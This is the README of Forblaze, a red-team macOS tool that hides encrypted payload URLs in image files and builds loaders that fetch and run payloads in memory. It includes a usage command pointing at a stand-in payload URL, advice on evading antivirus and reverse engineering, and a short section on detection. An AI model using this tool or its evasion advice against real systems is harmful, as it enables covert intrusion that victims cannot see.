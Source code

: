 # Forblaze - A Python Mac Steganography Payload Generator/In-Memory Dylib/MachO Execution
Author: AsaurusRex

## Disclaimer
DO NOT use this project for purposes other than legitimate red teaming/pentesting jobs, or research.  DO NOT use this for illegal activity of any kind, and know that this project is intended for research purposes and to help advance the missions of both red and blue teams.  

## Blog Post
For the blog post regarding Forblaze, check out https://medium.com/@marcusthebrody/forblaze-a-mac-stego-payload-generator-aaa7e7775571

## Purpose
Forblaze is a project designed to provide steganography capabilities to Mac OS payloads.  Using python3, it will build an Obj-C file for you which will be compiled to pull desired encrypted URLs out of the stego file, fetch payloads over https, and execute them directly into memory.  It utilizes custom encryption - it is not cryptographically secure, but purely to thwart analysis by AV engines.  It is a slight deviation on my previously built custom encryption for Windows, called Rubicon, and is more simple in practice.  Forblaze utilizes header and footer bytes to identify where in the stego file your encrypted bytes are, and then decrypts them with a hard-coded key in compile_forblaze.m.  This key can be saved and re-used, with the effect that a different URL could be used to fetch a different payload, and the same compiled forblaze should still be able to execute and process it (provided the header and footer bytes aren't changed, and the new stego file is uploaded to the correct location.) 

## Requirements:
Python3 (only tested with Python3.9+), and some associated Python libraries - pip3 should take care of any python dependencies you need.  In addition, clang will be used for compilation, and forblaze should be run on a mac so that forblaze can be correctly compiled.  

## Usage

usage: forblaze_url.py [-h] [-innocent_path PATH] [-o OUTPUT] [-len_key LENGTH_OF_KEY] [-compile_file COMPILE_FILE]
                       [-url_to_encrypt URL] [-supply_key SUPPLIED_KEY] [-stego_location STEGO_LOCATION]
                       [-compiled_binary COMPILED_BINARY]

Generate stego for implants.

optional arguments:

  -h, --help            show this help message and exit

  -innocent_path PATH   Provide the full path to the innocent file to be used.

  -o OUTPUT             Provide the path where you want your stego file to be placed.

  -len_key LENGTH_OF_KEY
                        Provide a positive integer that will be the length of the key in bytes. Default is 16. Must be between 10 and 150 bytes.


  -url_to_encrypt URL   Provide the URL you want to stick inside the compile file.

  -supply_key SUPPLIED_KEY
                        If you wish to use a specific key, provide it here. It must be in the format: -supply_key "\\x6e\\x60\\x..." - aka two double slashes are needed between each byte,
                        or else it WILL NOT WORK.

  -stego_location STEGO_LOCATION
                        You must provide a location on target where the stego file will reside. It is wise to follow strict full paths: /Users/<>/Documents/file.jpg for example.

  -compiled_binary COMPILED_BINARY
                        Give the name of the compiled binary to extract the URL and run code in memory from the stego file. The default is forblaze.

  -method METHOD        Select which method you wish to use. Method 1 relies on executing a dylib directly into memory, and works with Go payloads as well as regular payloads. Method 2
                        relies on executing a macho file directly into memory, but does not work with Go compiled payloads. Method 3 is method 1 but relies on fetching the decrypting key
                        over a server, which is more opsec friendly. The default method is 1. NOTE: You still might need to edit the 'module' (aka RunMain) manually depending on your
                        execution method!

  -key_url KEY_URL      Provide the URL to the key to decrypt the stego file.

```
  python3 forblaze_url.py -innocent_path Land-of-Belle.jpeg -o my_evil_pic.jpeg -len_key 24 -url_to_encrypt "https://your-example.com/test-payload.dylib" -method 1 -stego_location /tmp/my_not_evil_pic.jpeg  -compiled_binary innocent_binary
```

## Opsec Concerns
Honestly, not too many.  Mac OS detections are still pretty poor, especially for in-memory activity.  As an exercise for the reader, you could also call payload bytes directly vs a URL with some slight modifications to this code.  However, depending on the size of your payload, the encryption piece in the python script might take an unacceptably long time to complete.  

Note: since this code compiles to a Mach-O binary (not a dylib, although that can be changed pretty easily in the code), controls like Gatekeeper will prevent it from executing by default unless you can sign the payload or remove the quarantine attribute.  

I would recommend changing things like the number of random bytes generated from the default, and changing the default header and footer bytes that forblaze uses to find the payload in the stego file (as well as the length of those header and footer bytes to perhaps be more inconspicuous). 

For the best OpSec, I recommend fetching your decryption key from an external server you control - then you can control access to that key strictly, making RE much more difficult.

## Detection/Prevention
Steganography is pretty difficult to detect.  If you know where the stego file is, you can begin to extract the suspect bytes after the end of the normal file EOF (so after "FFD9" for jpegs for example).  These suspect bytes will still include the actual encrypted payload and nonsense random bytes, which would be hard to distinguish from each other unless you possess the header and trailing bytes specified by Forblaze.  You could look through these bytes and look for patterns of repeating bytes, since this is how the header and footer bytes with forblaze tend to work, but a skilled operator could make that more difficult to find than the default.  If a payload is caught you could obviously RE the binary and try to locate the stego file, and then try to use the hard-coded key and headers/footers to reverse the URL being called (or other bytes).  But that all assumes you found the binary by some other means.  


## Testing 
This tool has been tested on various versions of Mac OS, including Big Sur and Catalina (x64 systems).  Please let me know if you have problems. 

## Technical Nitty Gritty

The custom encryption is a basic Caesar cipher, where different bytes of the key are used to shift the bytes of your plaintext bytes.  This is why larger keys aren't NECESSARILY better for your encryption - it depends on the length of your plaintext.  If your plaintext is 50 bytes, and you use a 150 byte key, only the first 50 bytes of your key will be used.  If your plaintext is > 150 bytes however, the longer keys would be more secure.  

The steganography is quite simple: the bytes of your original innocent file  are kept the same, and random bytes (along with your encrypted payload bytes) are appended after these bytes.  These random bytes are by default anywhere between 2 and 2000 in length (this should likely be changed to fit your plaintext size -> larger plaintexts should mean more random bytes are generated).  

The in-memory execution piece is following https://blogs.blackberry.com/en/2017/02/running-executables-on-macos-from-memory, as well as the maisal loader (can't find the link at the moment), with the simple change that instead of reading payload bytes from an on-disk file, they are read over http/https.    


## Contributions/Comments/Criticisms
I am very open to receiving comments and to collaboration!  Hopefully this helps generate useful discussion around the topic of custom crypto, or provides researchers some new insights.  
